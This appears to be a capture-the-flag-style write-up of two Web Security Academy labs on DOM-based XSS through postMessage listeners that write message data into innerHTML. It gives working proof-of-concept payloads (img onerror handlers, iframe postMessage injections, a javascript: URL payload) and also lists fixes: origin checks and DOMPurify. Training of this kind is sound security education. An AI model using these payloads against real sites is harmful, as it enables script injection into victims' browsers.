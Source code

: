 # DOM-based vulnerabilities

## Lab: DOM XSS using web messages


The code:

```
window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                            })

```

### What’s happening:

- The page listens for messages sent to it via postMessage or other frames/windows.

- Whatever e.data contains is directly inserted into the DOM via innerHTML without sanitization.

- If an attacker can send a crafted message to the page, they can inject arbitrary HTML/JS.

### Why it’s vulnerable
```
- innerHTML interprets input as HTML, so <script> or event handlers (like onerror) will execute.

- The developer has not validated origin (i.e., e.origin) or sanitized e.data.
```

### Attack Steps
- Identify the vulnerable listener:

  - Look for window.addEventListener('message', ...) in JS.

  - Check if the callback uses innerHTML or document.write with untrusted data.

- Verify there’s no origin check:
   ```
   if (e.origin !== "https://trusted-site.com") return;
   If missing → vulnerable.
   ```
- Craft a malicious message to exploit:
	```
	window.postMessage('<img src=x onerror=alert(1)>', '*');
    '*' sends to any origin.
    The payload uses an event handler (onerror) to trigger JavaScript.
  
    ```


### Real-World Exploit
- If you can open the target page in an iframe or another tab, you can inject:

```

<iframe src="https://victim.com"></iframe>
<script>
    // Wait until iframe loads, then send payload
    window.frames[0].postMessage('<img src=x onerror=alert(document.domain)>', '*');
</script>
```

```
<iframe src="https://vitim.com/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```


### Fix
- Validate origin:
```
if (e.origin !== "https://trusted-site.com") return;
```
- Sanitize data (e.g., DOMPurify) before inserting into the DOM:
```
document.getElementById('ads').innerHTML = DOMPurify.sanitize(e.data);
```

- Avoid using innerHTML unless necessary — use textContent for plain text.

<hr>

## Lab: DOM XSS using web messages and a JavaScript URL


Analysis :
 - Find : addEventListener
 - window.postMessage("javascript:alert(1);//https://abc.com","*")
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:bing.com','*')">
```



::
